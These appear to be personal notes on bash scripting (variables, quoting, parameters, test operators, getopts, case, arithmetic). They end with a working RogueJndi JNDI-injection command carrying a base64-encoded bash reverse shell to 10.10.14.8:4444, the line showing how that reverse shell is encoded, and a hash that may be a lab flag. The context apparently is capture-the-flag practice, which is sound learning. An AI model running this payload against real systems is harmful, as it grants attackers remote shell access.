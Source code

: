 `type -a 'item'` - find out if its a shell builtin or user command
	if user command use man
	if shell builtin use help
Use command to assign to variable = `VARIABLE=$(cmd)`  
	Can also be `VARIABLE=`\``cmd`\`
Assign value using variable  
`WORD='script'`
variable = `${WORD}` or `$WORD`  
	When you want to display the variable's value you use `$Variable`  
	Single quotes prevent expansion of variables 
	Double quotes provides the interpretation of the variable 
		`TEST='1'`
		`echo "$TEST"` provides 1
		`echo '$TEST'` provides $test
	If we want to append text to the end of the variable you need to use `{}`
	`echo "${WORD}ing"` provides Scripting
	Combining variables also require that you use the `{`
Changing the value stored in a variable (Reassignment)
	`ENDING='ed'`
	`echo "$ENDING"` ed
	`ENDING='ing'`
	`echo "$ENDING"` ing
parameter - variable being used inside the shell script
`;` is command separator or enter key
arguement - data passed into the shel lscritp
	arguement used in command line becoems the value stored in a parameter
`${0}` - first positional parameter - what is typed in the cmd line to execute the script - returns output of the command
`${1}` - value fo the first arguement passed to the script on the cmd
expression = `[[ expression ]]
	Display if user is root or not
```
if [[ "${UID}" -eq 0 ]]
		then
			echo 'You are root'
		else 
			echo 'You are not root'
		fi 
```
-eq - equal to 

-lt - less than

le - less than or equal to

gt - greater than

ge - greater than or equal to


`${?}` exit status variable of the most recently executed command
read input `read ` `-p` -passes the input onto value 
	ex. `read -p 'Entire input: ' variable_name`
useradd `-c` -comment for user `-m`(make home directory) `"username"`
shuf - shuffles entire lines
fold - wrap each input line to match space 
which - finds which path x command will execute from
	`which head` - finds location of head cmd
hash - `hash` - changes shell remembered locations
basename - strips out directory and suffix from filenames - aka display only filename - doesnt do smart checking
dirname - strips last component from file name - aka display only directory  - doesnt do smart checking
!`letter` - goes back to last command that started with X letter
`${@}` - puts each input as seperate words
`${*}` - puts each input as one word
`${#}` - represents the number of arguments
`sleep -s m h d` - delays command for -seconds -minutes -hours -days
`shift` - each time the cmd runs, ${#} goes down one
`readonly [variable]=[variable assignment]` - read only variable 
`getopts` - used matching pattern to get options from input
	`getopts input options OPTION`
	`while GET`
`bash pgrep -x` - check processes
`
### Case
case `[input]` in
`value`) `command` ;;
;; - block ender
esac - case finish

When trying to do math in bash format is `$(( NUM + NUM ))`
num can be variables as well but dont need ${} 


________________________________________________________________________
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuOC80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.10.14.8"

echo 'bash -c bash -i >&/dev/tcp/10.10.14.8/4444 0>&1' |
base64

6ced1a6a89e666c0620cdb10262ba127

